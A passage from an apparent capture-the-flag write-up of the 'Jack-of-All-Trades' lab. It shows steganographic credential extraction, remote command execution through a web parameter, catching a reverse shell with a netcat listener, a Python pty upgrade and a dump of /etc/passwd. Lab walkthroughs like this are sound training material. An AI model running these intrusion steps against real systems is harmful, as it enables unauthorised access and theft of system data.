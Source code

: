 Nothing here.

Last file is: `header.jpg`.

This time, we got other credentials:

```
root@kaligra:/home/joshua/thm/Jack-of-All-Trades/10.10.83.56:22/assets# steghide extract -sf header.jpg  -p u?WtKSraq
wrote extracted data to "cms.creds".
root@kaligra:/home/joshua/thm/Jack-of-All-Trades/10.10.83.56:22/assets# cat cms.creds
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY
```

![15_backend](https://user-images.githubusercontent.com/42389836/156254659-7f7e02ea-ba96-4539-8140-9e90eb4ef5af.png)

There is a clear indication that we can use `cmd` variable to obtain RCE. Let's try:

![16_rce](https://user-images.githubusercontent.com/42389836/156254748-6326217e-1955-4e3a-b2eb-4e545c40e793.png)

Then, we try to get a reverse shell:


![18-rev_shell](https://user-images.githubusercontent.com/42389836/156254846-a74d5905-6a91-42e9-b63f-5bda39739c97.png)


```
root@kaligra:~# nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.8.147.132] from (UNKNOWN) [10.10.83.56] 50379
impo
which python
/usr/bin/python


python -c 'import pty;pty.spawn("/bin/bash");'
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@jack-of-all-trades:/var/www/html/nnxhweOV$
```

We got `passwd`:

```
www-data@jack-of-all-trades:/home$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
```